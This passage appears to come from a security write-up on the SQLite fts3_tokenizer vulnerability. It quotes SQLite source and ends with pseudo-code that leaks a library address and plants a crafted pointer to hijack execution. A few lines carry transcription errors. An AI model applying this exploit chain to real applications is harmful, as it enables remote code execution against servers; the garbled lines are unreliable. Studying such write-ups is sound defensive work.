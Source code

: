 `RAX` is the second parameter from `fts3_tokenizer`. SQLite3 called the `xCreate` callback with no validation and caused the segment fault. This refers to `sqlite3Fts3InitTokenizer` in `ext/fts3/fts3_tokenizer.c`.

```c
 m = (sqlite3_tokenizer_module *)sqlite3Fts3HashFind(pHash,z,(int)strlen(z)+1);
 if( !m ){
 sqlite3Fts3ErrMsg(pzErr, "unknown tokenizer: %s", z);
 rc = SQLITE_ERROR;
 }else{
 char const **aArg = 0;
 
 //...lines omitted...

 rc = m->xCreate(iArg, aArg, ppTok);
 assert( rc!=SQLITE_OK || *ppTok );  
 if( rc!=SQLITE_OK ){  
 sqlite3Fts3ErrMsg(pzErr, "unknown tokenizer");  
```
   
Assume the virtual table named *fulltext* has already been created successfully. This query triggers `xOpen` callback with the string "text goes here" as the `pInput1` parameter:

```
insert into fulltext values("text goes here");
```

Sources in `ext/fts3/fts3_expr.c`, function `sqlite3Fts3OpenTokenizer`:

```c
sqlite3_tokenizer_module const *pModule = pTokenizer->pModule;  
sqlite3_tokenizer_cursor *pCsr = 0;  
int rc;**rc = pModule->xOpen(pTokenizer, z, n, &pCsr);
```

So we can craft a target address on a predictable memory location, pass the location to `fts3_tokenizer`, trigger the callback, then program counter is hijacked. Yep! It can be a global variable in `.bss` segment, or use the heap spray technique.

[Commit e36e9c](https://github.com/mackyle/sqlite/commit/e36e9c520a7fa35c2dd46eb92aee7822580132e0) introduced the `soft_heap` pragma for limiting the size of heap memory pool. It accepts a 64-bit number set the global variable `mem0.alarmThreshold` to the given value. This global variable's address can be calculated from previously leaked `simpleTokenizer`.

The pseudo code to describe the exploit:

```php
$big_endian_address = sqlQuery("select hex(fts3_tokenizer('simple)) addr")['addr'];
$leaked_address = big_endian_to_cpu_endian($big_endian_address);
$libsqlite3_base = $leaked_address - $simple_tokenizer_offset;
$alarm_threshold = $libsqlite3_base + $threshold_offset;
$target = 0xdeadbeefdeadbeef;
$off_by_one = $is_64_bit ? 8 : 4;
$crafted = $alarm_threshold - $off_by_one;
$big_endian_address = cpu_endian_to_big_endian($crafted);
sqlQuery("select fts3_tokenizer('simple', ?);", $big_endian_address);
sqlQuery("create table a using fts3"); // crash
```

